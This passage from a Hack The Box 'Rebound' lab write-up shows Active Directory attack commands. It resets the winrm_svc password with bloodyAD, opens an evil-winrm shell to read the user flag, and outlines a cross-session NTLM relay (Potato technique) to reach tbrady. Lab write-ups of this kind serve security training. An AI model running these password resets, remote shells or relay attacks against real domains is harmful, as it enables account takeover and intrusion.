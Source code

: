 #### Step 4: Reset winrm_svc Password
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ bloodyAD --host 'dc01.rebound.htb' -d 'rebound.htb' -u 'oorend' -p '[REDACTED]' set password winrm_svc 'newPass123'
[+] Password changed successfully!
```

### Foothold via winrm_svc

#### Collecting User Flag

After logging in with the winrm user, the user flag can be found at `C:\Users\winrm_svc\Desktop\user.txt`.
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ evil-winrm -i 'rebound.htb' -u 'winrm_svc' -p 'newPass123'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> type ..\Desktop\user.txt

```

### Lateral Movement

The only way to get to `tbrady` seemed to be the fact he has a session on the the DC, as the user had no inbound ACEs or special privileges.

> As we can confirm with **winPEAS output** that `tbrady` is already logged in 
> ![1](/assets/img/favicons/rebound-htb/7.png)


After a long search, we discovered an exploit path with one of the Potatos techniques called `Cross-session Relay`, by setting up a local listener and coercing the privileged DCOM activation service to it, triggering an NTLM authentication of any user currently logged on (i.e. `tbrady`) in the target machine!
